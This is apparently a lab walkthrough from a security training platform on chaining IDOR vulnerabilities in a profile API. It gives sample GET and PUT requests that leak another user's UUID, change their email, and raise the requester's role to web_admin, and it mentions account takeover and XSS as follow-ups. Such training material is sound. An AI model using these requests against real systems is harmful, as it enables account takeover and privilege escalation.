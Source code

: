 # Chaining IDOR Vulnerabilities

When interacting with an API, a typical GET request to the endpoint `/profile/api.php` is expected to return user details. This request includes headers such as Host, User-Agent, and a cookie indicating the user's role (e.g., `role=employee`). Notably, this cookie is the only form of authorization present, lacking more secure methods like JWT tokens.

**Information Disclosure Vulnerability**

By sending a GET request with a different user ID (uid), we can retrieve details of another user, confirming an **Insecure Direct Object Reference (IDOR)** vulnerability. For example, a response might include:

{% code overflow="wrap" %}
```json
{
    "uid": "2",
    "uuid": "4a9bd19b3b8676199592a346051f950c",
    "role": "employee",
    "full_name": "Iona Franklyn",
    "email": "i_franklyn@employees.htb",
    "about": "It takes 20 years to build a reputation and few minutes of cyber-incident to ruin it."
}
```
{% endcode %}

This response reveals sensitive information, including the user's UUID, which can be exploited further.

**Modifying User Details**

With the UUID obtained, we can send a PUT request to modify the user's details without encountering any access control errors. For instance:

```http
PUT /profile/api.php/profile/2
Content-Type: application/json

{
    "uid": "2",
    "uuid": "4a9bd19b3b8676199592a346051f950c",
    "role": "employee",
    "full_name": "Iona Franklyn",
    "email": "new_email@employees.htb",
    "about": "Updated about section."
}
```

Upon successful modification, a subsequent GET request confirms the changes.

**Potential Attacks**

The ability to modify user details opens the door to various attacks:

* **Account Takeover**: Changing a user's email and requesting a password reset can allow an attacker to gain control over the account.
* **Cross-Site Scripting (XSS)**: Inserting malicious scripts in fields like 'about' can lead to XSS attacks when the affected user visits their profile.

**Chaining IDOR Vulnerabilities**

Identifying an IDOR vulnerability allows for user enumeration, potentially revealing users with higher privileges, such as an admin. For example, an admin user might have the following details:

```json
{
    "uid": "X",
    "uuid": "a36fa9e66e85f2dd6f5e13cad45248ae",
    "role": "web_admin",
    "full_name": "administrator",
    "email": "webadmin@employees.htb",
    "about": "HTB{FLAG}"
}
```

With this information, an attacker can modify the admin's details or elevate their own privileges by changing their role to `web_admin`.

**Elevating Privileges**

To change a user's role, an attacker can intercept the request when updating their profile and modify the role field:

```http
PUT /profile/api.php
Content-Type: application/json

{
    "uid": "1",
    "uuid": "40f5888b67c748df7efba008e7c2f9d2",
    "role": "web_admin",
    "full_name": "Amy Lindon",
    "email": "a_lindon@employees.htb",
    "about": "A Release is like a boat. 80% of the holes plugged is not good enough."
}
```

If successful, the attacker can then create new users or delete existing ones by sending a POST request with the necessary details.
